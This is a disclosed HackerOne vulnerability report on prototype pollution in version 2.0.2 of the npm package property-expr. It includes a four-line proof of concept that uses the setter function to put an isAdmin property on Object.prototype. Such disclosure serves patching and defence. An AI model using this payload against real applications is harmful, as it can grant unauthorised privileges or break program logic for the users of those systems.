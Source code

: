 # property-expr - Prototype pollution

## Report Details
- **Report ID**: 910206
- **URL**: https://hackerone.com/reports/910206
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-06-28T09:57:18.435Z
- **Disclosed**: 2020-09-24T04:00:17.873Z

## Reporter
- **Username**: ahihi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Prototype pollution in property-expr
It allows attacker to modify the prototype of a base object.

# Module

**module name:** property-expr
**version:** 2.0.2
**npm page:** `https://www.npmjs.com/package/property-expr`

## Module Description

> Tiny property path utilities, including path parsing and metadata and deep property setters and getters

## Module Stats

> Replace stats below with numbers from npm’s module page:

[1,057,612] weekly downloads

# Vulnerability

## Vulnerability Description

> The functions setter can be tricked into modifying properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:

Run the following code:
```
let expr = require('property-expr')
obj = {}
expr.setter('constructor.prototype.isAdmin')(obj,true)
console.log({}.isAdmin) // true
```
# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: [Y/N]  N
- I opened an issue in the related repository: [Y/N] N

## Impact

Modify Object prototype can lead to Dos, RCE, change code logic flow.

## Attachments
No attachments
